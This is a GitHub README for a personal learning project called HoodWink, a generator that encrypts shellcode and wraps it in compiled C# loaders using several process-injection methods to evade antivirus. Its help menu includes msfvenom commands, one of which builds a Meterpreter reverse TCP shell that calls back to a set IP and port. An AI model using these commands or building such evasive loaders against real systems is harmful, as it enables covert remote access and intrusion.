

# HoodWink
Simple AV Evasion Generator for me to learn evasion techniques

### Overview
Current
1. HoodWink will read in a file containing shellcode
2. Encrypt it with AES 256 using random key & iv and Base 64 encode
3. This is then placed into a generated source file using a given injection method (in help below) and compiled

<details>
<summary>Later versions will incorporate</summary>
More techniques
- Process Injection
- Process Hollow
- Thread Hijack
- ...

Misc
- PPID Spoofing
- BlockDlls
- Module Stomping
- ...

Do above techniques with
- both shellcode and dlls
- kernel32 and ntdll.dll (direct syscalls)
- In other languages (C++, Nim, ...)
</details>

#### Help Menu
```
Usage:
  ./HoodWink.exe msf.bin -i       # for inline
  ./HoodWink.exe msf.bin -t       # for inline: CreateThread
  ./HoodWink.exe msf.bin -r       # for remote: CreateRemoteThread via given PID
  ./HoodWink.exe msf.bin -s       # for remote: Spawn notepad.exe and Queue APC inject
  ./HoodWink.exe msf.bin -a       # makes all of the above
Payload Examples:
   msfbin: msfvenom -p windows/x64/exec -f raw CMD=calc.exe -o msf.bin
   msfbin: msfvenom -p windows/x64/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 LHOST=192.168.159.138 LPORT=8080 -f raw -o msf.bin
```

#### Usage Example


### Extras
<details>
<summary>Structure</summary>

HoodWink.cs - Main Program

Models/
- Module.cs - Enum for Types, Base Class for Modules, and Default Header + Footer

Modules/
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

ModuleSource/ - Source files for each Module (for Testing a technique and then porting to a Module)
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

Payloads/
- d71a2331-af9f-4397-bb34-f502c62db7f2.cs  - example generated source file
- d71a2331-af9f-4397-bb34-f502c62db7f2.exe - compiled above file

Services/
- CommandService.cs   - For suggested commands to run payload
- CompilerService.cs  - Compiles generated source
- HoodWinkService.cs - Main Service responsible for managing the full deception process
- GeneratorService.cs - Generates a source (encryption calls happen here)
- WriteService.cs

Utils/
- Crypto.cs   - AES and Encoding
- Kernel32.cs - Kernel32 API
</details>
